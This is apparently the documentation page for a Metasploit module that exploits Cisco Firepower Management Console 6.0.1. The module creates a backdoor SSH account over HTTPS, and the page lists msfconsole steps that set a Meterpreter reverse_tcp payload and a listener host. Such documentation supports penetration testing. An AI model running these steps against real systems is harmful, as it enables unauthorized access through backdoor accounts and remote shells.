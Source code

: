 This module exploits a vulnerability in Cisco Firepower Management Console RCE. It will
create a backdoor SSH account via HTTPS, and then obtain a native payload session
in SSH.

## Vulnerable Application

This exploit was specifically written against 6.0.1 (build 1213). To test, you can find the
virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052



## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_firepower_useradd```
3. ```set password [https console password for admin]```
4. ```set rhost [IP]```
5. ```set payload linux/x86/meterpreter/reverse_tcp```
6. ```set lhost [IP]```
7. ```exploit```
8. You should get a session
